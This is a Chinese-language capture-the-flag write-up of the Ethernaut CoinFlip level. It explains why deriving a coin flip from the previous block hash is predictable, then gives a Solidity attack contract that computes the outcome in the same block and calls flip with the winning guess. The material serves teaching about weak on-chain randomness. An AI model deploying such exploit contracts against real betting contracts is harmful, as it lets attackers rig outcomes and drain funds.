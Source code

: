 
```js
block.blockhash(block.number.sub(1))
```

**分析**

在合约的开头先定义了三个uint256类型的数据——consecutiveWins、lastHash、FACTOR，其中FACTOR被赋予了一个很大的数值，之后查看了一下发现是2^255。之后定义的CoinFlip为构造函数，在构造函数中将我们的猜对次数初始化为0。lasthash代表的就是上一个区块的hash值。

之后就是产生coinflip，它就是拿来判断硬币翻转的结果的，它是拿blockValue/FACTR，前面也提到FACTOR实际是等于2^255，若换成256的二进制就是最左位是0，右边全是1，而我们的blockValue则是256位的，因为solidity里“/”运算会取整，所以coinflip的值其实就取决于blockValue最高位的值是1还是0，换句话说就是跟它的最高位相等。



通过对以上代码的分析我们可以看到硬币翻转的结果其实完全取决于前一个块的hash值，看起来这似乎是随机的，它也确实是随机的，然而事实上它也是可预测的，因为一个区块当然并不只有一个交易，所以我们完全可以先运行一次这个算法，看当前块下得到的coinflip是1还是0然后选择对应的guess，这样就相当于提前看了结果。因为块之间的间隔也只有10s左右，要手工在命令行下完成合约分析中操作还是有点困难，所以我们需要在链上另外部署一个合约来完成这个操作，在部署时可以直接使用[http://remix.ethereum.org来部署](http://remix.ethereum.xn--org-r99fq57hj5v/)

**攻击合约**

```js
pragma solidity ^0.4.18;
contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue/FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract exploit {
  CoinFlip expFlip;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function exploit(address aimAddr) {
    expFlip = CoinFlip(aimAddr);
  }

  function hack() public {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool guess = coinFlip == 1 ? true : false;
    expFlip.flip(guess);
  }
```